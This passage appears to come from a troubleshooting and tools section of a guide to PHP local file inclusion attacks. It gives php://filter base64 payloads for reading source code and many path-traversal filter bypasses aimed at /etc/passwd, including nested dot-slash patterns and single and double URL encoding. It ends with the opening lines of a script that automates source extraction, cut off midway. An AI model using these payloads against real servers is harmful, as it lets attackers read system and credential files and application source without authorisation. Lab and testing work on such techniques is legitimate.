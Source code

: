### Problem: Base64 output truncated
```bash
# Issue: Long base64 output gets cut off
# Check 1: Use different output capture methods
curl -s "URL" | tee full_output.txt

# Check 2: Try smaller files first
php://filter/convert.base64-encode/resource=.htaccess

# Check 3: Check for content length limits
curl -s -I "URL" | grep -i content-length
```

### Problem: Encoding/decoding errors
```bash
# Issue: Base64 decode fails
# Check 1: Clean base64 output
grep -o '[A-Za-z0-9+/=]*' output.txt | tr -d '\n' | base64 -d

# Check 2: Try different decoders
echo 'BASE64_DATA' | python3 -c "import sys,base64; print(base64.b64decode(sys.stdin.read()).decode())"

# Check 3: Check for HTML entity encoding
sed 's/&gt;/>/g; s/&lt;/</g; s/&amp;/\&/g' output.txt | base64 -d
```

### Problem: Non-recursive bypass not working
```bash
# Issue: ....// pattern still filtered
# Check 1: Try different patterns
....\/....\/etc/passwd
..././..././etc/passwd
....\\....\\etc/passwd

# Check 2: Test various encodings
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f
%252e%252e%252e%252e%252f%252f

# Check 3: Try mixing techniques
....//....//....//..%2fetc%2fpasswd
```

---

## Tools and Resources

### PHP Filter Tools
```bash
# Manual base64 encoding/decoding
echo "Hello World" | base64
echo "SGVsbG8gV29ybGQ=" | base64 -d

# Automated PHP source extraction
cat << 'EOF' > extract_php_source.sh
#!/bin/bash
URL=$1
FILE=$2
if [ -z "$URL" ] || [ -z "$FILE" ]; then
    echo "Usage: $0 <base_url> <php_file>"
    exit 1
fi

```
